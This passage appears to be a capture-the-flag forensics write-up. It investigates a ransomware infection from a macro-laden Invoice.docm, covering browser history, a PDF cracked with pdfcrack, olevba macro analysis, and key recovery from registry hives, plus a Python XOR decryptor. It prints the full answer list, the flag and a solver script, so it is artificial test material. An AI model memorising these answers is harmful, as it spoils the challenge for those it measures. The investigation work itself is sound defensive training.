

The email identified the malicious attachment.

```text
[Question 5]
```

Several unaffected documents came from the same external file-sharing website. What is the website domain?

(Answer format: domain.tld)



I checked Chrome History for the file-sharing website. Dropbox and Google Drive stood out; the accepted answer was Dropbox.

```text
[Question 6]
```

Some user documents were left untouched after the incident. What hidden internal note explains why?

(Answer format: UPPERCASE sentence, combine all parts with spaces)









The Documents directory contained files that had not been encrypted. In order, the first PDF contained JavaScript, the second was password-protected, and the third visibly contained `PART 3/3`. Decoding the first file revealed `PART 1/3: THE DESKTOP FILES WERE`.





I cracked the second PDF with `pdfcrack`, recovering `sunshine`. I decrypted it and used `pdftotext` to read its contents.

```text
[Question 7]
```

After reviewing the encryption routine and recovered system artifacts, what exact key value was used to encrypt the affected files?

(Answer format: exact key string, no spaces)



I extracted `Invoice.docm` from the email, opened it as an archive, and analyzed `vbaProject.bin` with `olevba`.



The code derived its key from `MachineGuid + MachineSid`.





I returned to the registry artifacts to recover the `MachineGuid` and machine SID values from the `SOFTWARE` and `SECURITY` hives.

```text
[Question 8]
```

After decrypting all affected files, what are the contract number, closing adjustment code, and backup operator employee ID?

(Answer format: contract_number closing_adjustment backup_operator_employee_id, separated by single spaces)

```python
import os
import sys

MAGIC = b"THEACE_LOCKED_V1"
LOCKED_EXT = ".locked"
KEY = "540dcbf3-3668-42b0-8a03-1832f3f31969S-1-5-21-4215249282-421645790-586763505"

def decrypt_file(filepath):
    with open(filepath, 'rb') as f:
        data = f.read()

    # Verify / remove the magic header
    if not data.startswith(MAGIC):
        print(f"[-] Skipping {filepath}: missing MAGIC header")
        return

    encrypted = data[len(MAGIC):]          # actual XORed data
    key_bytes = KEY.encode('utf-8')
    key_len = len(key_bytes)

    decrypted = bytearray()
    for i, byte in enumerate(encrypted):
        decrypted.append(byte ^ key_bytes[i % key_len])

    # Output path: remove .locked
    if filepath.endswith(LOCKED_EXT):
        out_path = filepath[:-len(LOCKED_EXT)]
    else:
        out_path = filepath + ".decrypted"

    with open(out_path, 'wb') as f:
        f.write(decrypted)

    print(f"[+] Decrypted: {filepath} -> {out_path}")

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python decrypt_locked.py <file.locked>")
        print("   or: python decrypt_locked.py <directory_with_locked_files>")
        sys.exit(1)

    target = sys.argv[1]
    if os.path.isdir(target):
        for root, _, files in os.walk(target):
            for f in files:
                if f.endswith(LOCKED_EXT):
                    decrypt_file(os.path.join(root, f))
    else:
        decrypt_file(target)
```







I used AI to help write the decryptor above, then opened the recovered files one by one.

```text
[Question 9]
```

Build the execution timeline of the malicious document activity. Provide the timestamps for: Word opened, cmd.exe spawned, reg.exe executed, and encrypted files created.

(Answer format: WORD=YYYY-MM-DD_HH:MM:SS CMD=YYYY-MM-DD_HH:MM:SS REG=YYYY-MM-DD_HH:MM:SS ENCRYPTED=YYYY-MM-DD_HH:MM:SS, UTC time)









Prefetch supplied the execution timestamps for the programs. I used the encrypted files’ modification times for the final timestamp.

```text
[Question 10]
```

Based on the reconstructed timeline, Windows recorded special privileges for an interactive user session shortly before the malicious document activity. Which Logon ID identifies that privileged session?

(Answer format: hexadecimal Logon ID, for example 0x123456)



AI suggested checking `Security.evtx`. I narrowed the events to just before the document activity at `07:12:43` and found the Logon ID `0x177c79`.

### Solver

`Solver.py`

```python
from pwn import *
p = remote('34.47.176.25', 8029)
print(p.recvuntil(b'> ').decode())
answers = [
    'Windows 10 Pro 22H2 build 19045.6456',
    'asmararadhitya@gmail.com',
    'URGENT: Invoice Reconciliation Required Before Vendor Payment',
    'Invoice.docm',
    'dropbox.com',
    'THE DESKTOP FILES WERE NOT ENCRYPTED BECAUSE THE RANSOMWARE ONLY TARGETED DOWNLOADS',
    '540dcbf3-3668-42b0-8a03-1832f3f31969S-1-5-21-4215249282-421645790-586763505',
    'VND-ACE-2026-042 FCA-2025-Q4-7914 EMP-ACE-0827',
    'WORD=2026-07-01_07:12:43 CMD=2026-07-01_07:12:59 REG=2026-07-01_07:13:00 ENCRYPTED=2026-07-01_07:13:02',
    '0x177c79'
]

for answer in answers:
    p.sendline(answer.encode())
    response = p.recv().decode()
    print(response)
print(p.recvall().decode())
```

### Conclusion

https://chat.deepseek.com/share/o5sp3k9usyzjek0byp

### Flag

```text
ACE{0414e59275711ff9c0d088130792c9dc299c1538}
```
